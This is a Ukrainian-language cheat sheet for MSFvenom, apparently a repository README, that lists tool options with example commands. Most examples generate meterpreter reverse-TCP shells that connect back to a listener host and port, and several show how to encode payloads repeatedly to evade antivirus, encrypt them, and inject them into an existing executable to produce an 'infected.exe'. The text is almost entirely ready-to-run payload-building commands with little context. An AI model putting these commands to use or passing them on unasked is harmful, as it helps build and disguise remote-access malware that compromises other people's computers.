 
# Команди MSFvenom

Цей документ містить список основних команд MSFvenom з поясненнями українською мовою для ефективної роботи з інструментом.

## Основні команди

1. **-p**  
   Вказує тип payload для створення шкідливого файлу.  
   **Приклад**:  
   ```bash
   msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f elf > payload.elf
   ```

2. **-f**  
   Вказує формат файлу, який буде створений. Може бути elf, exe, asp, php, і багато інших.  
   **Приклад**:  
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f exe > payload.exe
   ```

3. **-a**  
   Вказує архітектуру цільової системи (x86, x64, arm).  
   **Приклад**:  
   ```bash
   msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f elf -a x86 > payload.elf
   ```

4. **-b**  
   Вказує символи, яких слід уникати в payload, щоб не порушити працюючі процеси або системи.  
   **Приклад**:  
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -b "\00" -f exe > payload.exe
   ```

5. **-e**  
   Вказує енкодер для захисту payload. Це дозволяє приховати payload від антивірусів.  
   **Приклад**:  
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -e x86/shikata_ga_nai -f exe > payload.exe
   ```

6. **-x**  
   Вказує шлях до існуючого виконуваного файлу для його зараження.  
   **Приклад**:  
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -x /path/to/existing.exe -f exe > infected.exe
   ```

7. **-i**  
   Вказує кількість ітерацій енкодера, щоб зробити payload важче для детектування.  
   **Приклад**:  
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe > payload.exe
   ```

8. **-k**  
   Застосовує ключ для шифрування payload.  
   **Приклад**:  
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -k -f exe > encrypted_payload.exe
   ```

9. **-l**  
   Виводить список всіх доступних payloads.  
   **Приклад**:  
   ```bash
   msfvenom -l
   ```

10. **-h**  
    Виводить довідку про використання MSFvenom та його параметри.  
    **Приклад**:  
    ```bash
    msfvenom -h
    ```

11. **-V**  
    Виводить версію MSFvenom.  
    **Приклад**:  
    ```bash
    msfvenom -V
    ```

12. **--platform**  
    Вказує платформу для payload (наприклад, Windows, Linux, Android).  
    **Приклад**:  
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 --platform windows -f exe > payload.exe
    ```

13. **--arch**  
    Вказує архітектуру для payload (наприклад, x86, x64).  
    **Приклад**:  
    ```bash
    msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 --arch x64 -f elf > payload.elf
    ```

14. **--payload**  
    Вказує конкретний payload для генерації.  
    **Приклад**:  
    ```bash
    msfvenom --payload windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f exe > payload.exe
    ```

15. **--encrypt**  
    Вказує алгоритм шифрування для payload.  
    **Приклад**:  
    ```bash
    msfvenom --payload windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 --encrypt rc4 -f exe > encrypted_payload.exe
    ```

16. **-o**  
    Вказує ім’я файлу, у який буде збережено payload.  
    **Приклад**:  
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -o payload.exe
    ```

17. **--no-cache**  
    Оновлює кеш і використовує новіші версії payloads та енкодерів.  
    **Приклад**:  
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 --no-cache -f exe > payload.exe
    ```

